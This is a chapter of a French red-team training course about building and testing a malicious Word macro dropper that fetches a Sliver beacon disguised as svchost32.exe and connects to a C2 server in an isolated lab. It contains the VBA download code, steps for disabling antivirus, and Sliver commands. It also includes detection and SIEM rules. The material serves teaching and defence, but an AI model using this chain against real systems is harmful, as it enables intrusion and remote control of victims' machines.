

# 6.6 Génération du beacon et test local de la chaîne complète

!!! quote "L'analogie de la répétition générale avant la première"

    Un metteur en scène ne présente jamais une pièce au public sans répétition générale. Il rassemble toutes les équipes, tous les décors, tous les acteurs, dans les conditions exactes de la représentation, pour identifier ce qui manque, ce qui bogue, ce qui doit être ajusté. La répétition générale n'est pas un test partiel. C'est la chaîne complète, du rideau qui s'ouvre au rideau qui tombe. Ce chapitre est la répétition générale du module 6. Vous avez le document Word piégé (6.3), l'encodage (6.4), le C2 actif (6.5). Vous assemblez maintenant tous ces éléments dans le lab isolé, vous les testez de bout en bout, vous documentez les succès et les échecs, et vous êtes prêt pour l'opération du 6.7.

## Métadonnées du chapitre

Ce chapitre valide l'intégration de toute la chaîne.

| Champ | Valeur |
|---|---|
| Durée estimée | 2 heures |
| Niveau | Pratique offensive - Validation intégration |
| Prérequis | 6.3, 6.4, 6.5 complétés et fonctionnels |
| Livrables | Chaîne complète validée, beacon actif dans Sliver, rapport de test |
| Auto-explication | 8 minutes |

!!! danger "Cadre légal strict"

    Ce chapitre utilise conjointement tous les outils des chapitres précédents. Tout le travail se déroule **exclusivement sur les VM du lab ARTECH sous votre contrôle**. Aucun composant ne doit contacter des systèmes externes. Vérifiez l'isolation réseau avant de commencer.

## Objectifs pédagogiques

À l'issue de ce chapitre, vous serez capable de :

- Assembler la chaîne complète dropper → payload → C2
- Mettre à jour la macro VBA avec l'URL correcte du beacon encodé
- Valider l'exécution sur une VM Windows de test
- Confirmer la réception du beacon dans Sliver
- Identifier et corriger les problèmes d'intégration courants
- Produire la documentation forensique du test complet

<br>

---

## 1. Architecture de la chaîne complète

Voici la chaîne que vous allez valider en totalité.



!!! note "Cadre légal — référence aux chapitres précédents"

    Les articles applicables à cette opération (CP 323-1, 323-3, 323-7, 313-1) sont détaillés au **chapitre 6.3** et, pour leur fondement, au **module 1 Législation**. Ils ne sont pas répétés ici. Si vous avez un doute, relisez 6.3 § 1 avant de continuer.

<br>

---

## 2. Préparation de l'environnement de test

### 2.1 Checklist avant démarrage

```text
CHECKLIST ISOLATION LAB
=========================

Infrastructure C2 (Kali 192.168.50.20) :
[ ] Sliver server démarré (sudo sliver-server &)
[ ] Listener HTTPS actif sur :443 (vérif : sliver > jobs)
[ ] Serveur HTTP Python actif sur :80
[ ] beacon_xor.bin dans le répertoire servi par HTTP
[ ] Wireshark lancé (interface réseau lab)

VM Cible Windows (192.168.50.100) :
[ ] Snapshot "avant-test-6.6" pris
[ ] Antivirus Windows Defender désactivé (test uniquement)
[ ] Protected View désactivé pour le test (Centre de gestion)
[ ] Macros activées (Fichier → Options → Centre de gestion → Activer toutes les macros)
[ ] Réseau : uniquement accès au lab (pas d'Internet)
[ ] Sysmon installé et configuré (facultatif mais recommandé)

Documentation :
[ ] Journal de test ouvert
[ ] Capture réseau démarrée
```

### 2.2 Vérification des services sur Kali

```bash
# Terminal Kali - Vérification simultanée

# Sliver listener
sliver > jobs
# Doit afficher :
# ID  Name   Protocol  Port
#  1  https  https     443

# Serveur HTTP (dans un autre terminal)
sudo netstat -tlnp | grep :80
# tcp   0.0.0.0:80   LISTEN   python3

# Test d'accès au beacon depuis la Kali elle-même
curl -I http://192.168.50.20/beacon_xor.bin
# HTTP/1.0 200 OK
# Content-type: application/octet-stream

# Si 404 : le fichier n'est pas dans le bon répertoire
```

<br>

---

## 3. Mise à jour du document VBA avec les bonnes URLs

### 3.1 Vérifier la macro dans le document

Le document créé au chapitre 6.3 doit pointer vers la bonne adresse.

```vba
' Vérifier dans l'éditeur VBA (Alt+F11 dans Word)
' Module : ThisDocument → Document_Open → ExecuterCharge

' L'URL doit correspondre à votre C2 :
sUrl = "http://192.168.50.20/beacon_xor.bin"

' Si vous avez utilisé la version PowerShell :
'  $c.DownloadFile('http://192.168.50.20/beacon_xor.bin', ...)

' Si l'URL est différente, la corriger ici
```

### 3.2 Mise à jour et sauvegarde du document

```text
PROCÉDURE MISE À JOUR DOCUMENT
================================

1. Ouvrir artech-contrat.docm sur la Kali (ou la VM de production du document)

2. Alt + F11 → Éditeur VBA

3. Dans ThisDocument.Document_Open() ou ExecuterCharge() :
   → Vérifier l'URL : http://192.168.50.20/beacon_xor.bin
   → Vérifier le nom du fichier destination : svchost32.exe

4. Fermer l'éditeur VBA (Ctrl+F4)

5. Enregistrer le document (Ctrl+S)
   → Format : Document Word avec macros (*.docm)

6. Vérifier le hash du document mis à jour
   sha256sum artech-contrat.docm
   (Noter dans le journal)
```

<br>

---

## 4. Test d'exécution complet

### 4.1 Transfert du document vers la VM cible

```bash
# Option 1 : Partage SMB simple (lab)
# impacket-smbserver est la commande correcte (binaire installé par apt)
sudo impacket-smbserver share /root/lab/ -smb2support
# Alias équivalent si impacket installé via pip :
# python3 /opt/impacket/examples/smbserver.py share /root/lab/ -smb2support

# Sur la VM Windows, accéder au partage
# \\192.168.50.20\share\artech-contrat.docm

# Option 2 : HTTP simple (recommandée pour le lab - plus fiable)
# Copier dans le répertoire servi
cp /root/lab/artech-contrat.docm /root/lab/serve/
# Depuis la VM Windows :
# http://192.168.50.20/artech-contrat.docm
```

_L'option HTTP est recommandée pour le lab : elle ne nécessite pas impacket et le serveur `python3 -m http.server 80` est déjà actif depuis la section 2._

### 4.2 Exécution sur la VM cible

```text
SÉQUENCE D'EXÉCUTION VM WINDOWS
==================================

Sur la VM Windows 192.168.50.100 :

HH:MM:SS.000 - Copier artech-contrat.docm sur le Bureau
HH:MM:SS.100 - Double-cliquer sur le fichier
HH:MM:SS.200 - Word s'ouvre
HH:MM:SS.300 - Protected View peut s'afficher (si MOTW)
               → Cliquer "Activer la modification"
HH:MM:SS.400 - Barre jaune "Activer le contenu" (macros)
               → Cliquer "Activer le contenu"
HH:MM:SS.500 - Document_Open() se déclenche
               → Timer 3s si vous avez utilisé Application.OnTime

HH:MM:03.500 - Macro ExecuterCharge() s'exécute
               → MSXML2.XMLHTTP GET beacon_xor.bin
               → ADODB.Stream écrit %TEMP%\svchost32.exe
               → Shell "cmd /c start /b svchost32.exe"

HH:MM:03.800 - Processus svchost32.exe démarré
               → Décodage XOR en mémoire (si loader séparé)
               → Beacon Sliver actif
               → Première connexion HTTPS vers 192.168.50.20:443
```

### 4.3 Observation sur le C2 Sliver

```bash
# Console Sliver - Observation en temps réel

sliver > beacons
# (vide pendant 60-75 secondes)

# Après le premier callback :
sliver > beacons
# ID          Name           Transport  OS/Arch        Last Check-In
# a1b2c3d4    artech-beacon  https      windows/amd64  il y a 5s

# Succès ! Le beacon a contacté le C2.
# Durée : environ 60s après l'exécution (premier callback)

# Interaction
sliver > use a1b2c3d4
sliver (artech-beacon) > whoami
# [*] Tasked beacon artech-beacon (send task)
# (attente du prochain callback...)
# ARTECH\paul.dubois

sliver (artech-beacon) > hostname
# ARTECH-POSTE01

sliver (artech-beacon) > pwd
# C:\Users\paul.dubois\AppData\Local\Temp
```

<br>

---

## 5. Observation des artefacts en parallèle

### 5.1 Wireshark côté C2

```text
WIRESHARK - FILTRES UTILES
============================

Filtre principal :
  ip.addr == 192.168.50.100

Voir les connexions HTTPS (beacon) :
  ip.addr == 192.168.50.100 and tcp.dstport == 443

Voir le téléchargement beacon (HTTP) :
  ip.addr == 192.168.50.100 and tcp.dstport == 80

Timing analysis :
  Statistics → I/O Graph
  → Observer la périodicité des connexions HTTPS
```

### 5.2 Event Viewer sur la VM cible

```text
ÉVÉNEMENTS WINDOWS À OBSERVER
================================

Ouvrir l'Observateur d'événements sur la VM cible
Windows + X → Observateur d'événements

Journaux Windows → Sécurité :
  Event 4688 : Création de processus
    → cmd.exe, powershell.exe (parent: WINWORD.EXE)
    → svchost32.exe

Applications et services → Microsoft → Windows → Sysmon → Operational :
  Event 1  : Process Create (svchost32.exe)
  Event 3  : Network Connection (svchost32.exe → 192.168.50.20:443)
  Event 11 : FileCreate (%TEMP%\svchost32.exe)
```

### 5.3 Logs HTTP sur le C2

```bash
# Terminal Kali - Logs du serveur HTTP Python
# Visible dans le terminal où python3 -m http.server tourne

# 192.168.50.100 - - [03/May/2026 14:23:41] "GET /beacon_xor.bin HTTP/1.1" 200 -
# ↑ IP cible    ↑ Timestamp                                                   ↑ Taille

# Ces logs confirment le téléchargement du beacon
```

<br>

---

## 6. Problèmes courants et résolution

### 6.1 Table de diagnostic

| Symptôme | Cause probable | Solution |
|---|---|---|
| Pas de barre jaune macros | Macros déjà activées ou GPO | Vérifier Centre de gestion confid. |
| Barre jaune mais macro ne s'exécute pas | Protected View actif | Cliquer "Activer la modification" d'abord |
| GET beacon_xor.bin → 404 | Mauvais répertoire HTTP | Copier beacon_xor.bin dans le bon dossier |
| GET beacon_xor.bin → connexion refusée | Serveur HTTP non démarré | `python3 -m http.server 80` sur Kali |
| Beacon créé mais ne s'exécute pas | Antivirus a bloqué | Vérifier quarantaine Defender |
| Beacon actif mais Sliver ne voit rien | Listener HTTPS inactif | `sliver > https` pour redémarrer |
| Callback après 5 minutes | Délai beacon trop long | Regénérer avec `--seconds 30` |

### 6.2 Débogage de la macro

Si la macro ne s'exécute pas, tester la version simplifiée.

```vba
' Test simple - remplace Document_Open() temporairement
Private Sub Document_Open()
    MsgBox "Macro OK - URL = http://192.168.50.20/beacon_xor.bin"
End Sub
```

_Si cette boîte de dialogue n'apparaît pas, le problème est dans l'activation des macros, pas dans le code._

### 6.3 Vérification du téléchargement depuis Word

```vba
' Test téléchargement uniquement (sans exécution)
Private Sub Document_Open()
    Dim oXHR As Object
    Set oXHR = CreateObject("MSXML2.XMLHTTP")
    oXHR.Open "GET", "http://192.168.50.20/beacon_xor.bin", False
    oXHR.Send

    MsgBox "Status: " & oXHR.Status & " - Taille: " & Len(oXHR.ResponseBody) & " octets"
    Set oXHR = Nothing
End Sub
```

_Si `Status = 200` et `Taille > 0`, le téléchargement fonctionne. Si `Status = 0`, le réseau n'est pas accessible depuis Word._

<br>

---

## 7. Contre-mesures défensives spécifiques à la chaîne

### 7.1 Détection de la chaîne complète

La chaîne complète laisse de nombreux artefacts détectables.

| Étape | Artefact | Outil de détection |
|---|---|---|
| Ouverture document | WINWORD.EXE lancé | — (normal) |
| Macro exécutée | WINWORD.EXE → MSXML2.XMLHTTP | API monitoring EDR |
| Téléchargement beacon | Connexion HTTP vers IP externe | Proxy / Firewall log |
| Écriture disque | .exe créé dans %TEMP% | Sysmon Event 11 |
| Exécution beacon | Nouveau processus depuis cmd.exe | Sysmon Event 1 |
| Callback C2 | Connexion HTTPS périodique | Netflow / NDR |

### 7.2 Corrélation SIEM

En SIEM, la corrélation de ces événements est automatisable.

```text
RÈGLE DE CORRÉLATION SIEM
===========================

SI :
  Event 1 (process create) avec
    ParentImage LIKE "%WINWORD.EXE"
    AND Image LIKE "%cmd.exe" OR "%powershell.exe"
PUIS :
  Alerte HIGH - "Office macro executing shell"

SI DANS LES 300s :
  Event 11 (file create) avec
    TargetFilename LIKE "%AppData%Temp%.exe"
  ET Event 3 (network) depuis
    le même processus enfant
PUIS :
  Alerte CRITICAL - "Macro dropper probable"
  → Isolation automatique du poste
```

<br>

---

## 8. Rapport de test complet

Voici le template de rapport à compléter à l'issue du test.

```markdown
# Rapport de test - Chaîne complète Module 6 - ARTECH Lab
# Date : YYYY-MM-DD
# Testeur : [Votre nom]

## 1. Environnement

| Composante | Valeur |
|---|---|
| VM C2 (Kali) | 192.168.50.20, Sliver v1.5.x |
| VM Cible | 192.168.50.100, Windows 10 21H2 |
| Snapshot avant test | artech-win10-snap-YYYYMMDD |
| Antivirus cible | Désactivé pour le test |
| Réseau | Isolé lab (pas d'Internet) |

## 2. Hashes des fichiers

| Fichier | SHA-256 |
|---|---|
| artech-contrat.docm | xxxx |
| beacon.exe (Sliver brut) | xxxx |
| beacon_xor.bin (encodé) | xxxx |
| loader.exe (si utilisé) | xxxx |

## 3. Timeline d'exécution

| Timestamp | Événement |
|---|---|
| HH:MM:SS | Document ouvert sur VM cible |
| HH:MM:SS | Clic "Activer le contenu" |
| HH:MM:SS | Macro Document_Open() déclenchée |
| HH:MM:SS | GET beacon_xor.bin observé sur C2 |
| HH:MM:SS | svchost32.exe créé dans %TEMP% |
| HH:MM:SS | Premier callback Sliver reçu |
| HH:MM:SS | Commande whoami exécutée |
| HH:MM:SS | Session terminée, snapshot restauré |

## 4. Résultats

| Test | Résultat | Commentaire |
|---|---|---|
| Macro auto-exécutée | ✅ / ❌ | |
| Téléchargement beacon | ✅ / ❌ | |
| Exécution silencieuse | ✅ / ❌ | |
| Beacon actif dans Sliver | ✅ / ❌ | |
| Commande whoami reçue | ✅ / ❌ | |

## 5. Artefacts collectés

- [ ] Capture réseau : artech-test-YYYYMMDD.pcap
- [ ] Screenshot Sliver session active
- [ ] Logs Sysmon exportés
- [ ] Event Viewer export (4688)

## 6. Conclusion

La chaîne complète [est / n'est pas] fonctionnelle.
Chapitre 6.7 : [peut commencer / corrections nécessaires].
```

<br>

---

## 9. Auto-évaluation

Vérifiez votre maîtrise par les questions suivantes.

| # | Question | Réponse |
|---|---|---|
| 1 | Deux validations nécessaires avant d'ouvrir le document ? | Macros activées + Protected View désactivé |
| 2 | Délai avant premier callback ? | ~60s (beacon period) + 0-15s (jitter) |
| 3 | Commande Sliver pour lister les beacons actifs ? | `beacons` |
| 4 | Event Sysmon pour fichier créé dans %TEMP% ? | Event ID 11 (FileCreate) |
| 5 | Comment déboguer si la macro ne s'exécute pas ? | Remplacer par `MsgBox "test"` dans Document_Open |
| 6 | Filtre Wireshark pour voir le callback beacon ? | `ip.addr == 192.168.50.100 and tcp.dstport == 443` |
| 7 | Cause si 404 lors du téléchargement beacon ? | Fichier absent du répertoire servi par HTTP |
| 8 | Quelle action après le test ? | Restaurer le snapshot de la VM cible |

<br>

---

## 10. Synthèse

```text
TEST CHAÎNE COMPLÈTE - RÉCAPITULATIF
=======================================

COMPOSANTES VALIDÉES
  Document Word  : artech-contrat.docm (6.3)
  Payload encodé : beacon_xor.bin (6.4)
  C2             : Sliver HTTPS (6.5)
  Exécution      : VBA → HTTP → beacon → Sliver

TIMELINE TYPE
  T+0s    : Document ouvert, macros activées
  T+3s    : ExecuterCharge() → HTTP GET beacon
  T+5s    : beacon.exe écrit dans %TEMP%
  T+6s    : beacon.exe exécuté (cmd /b)
  T+60-75s: Premier callback Sliver

ARTEFACTS FORENSIQUES
  Sysmon 1  : Création processus
  Sysmon 3  : Connexion réseau
  Sysmon 11 : Fichier créé %TEMP%
  HTTP log  : GET beacon_xor.bin
  Sliver    : Beacon ID + session

CONTRE-MESURES RAPPEL
  GPO macros désactivées → neutralise 6.3
  EDR comportemental → détecte la chaîne
  NDR / JA3 → détecte le beacon Sliver
  SIEM corrélation → alerte automatique

PROCHAINE ÉTAPE
  6.7 : Envoi email via Postfix (6.2)
  et capture du beacon en conditions réelles lab
```

## Conclusion

!!! quote "La chaîne fonctionne - le test valide, la documentation protège"

> Le chapitre 6.7 est l'opération complète : vous envoyez l'email depuis votre infrastructure Postfix du 6.2, la cible ouvre le document, et vous capturez la session dans Sliver. La boucle du module 6 est bouclée.

---

**Chapitre précédent** : [6.5 Sliver C2 - Installation et configuration](05-sliver-c2-installation.md)

**Chapitre suivant** : [6.7 Envoi de l'email et capture du beacon](07-envoi-email-capture-beacon.md)
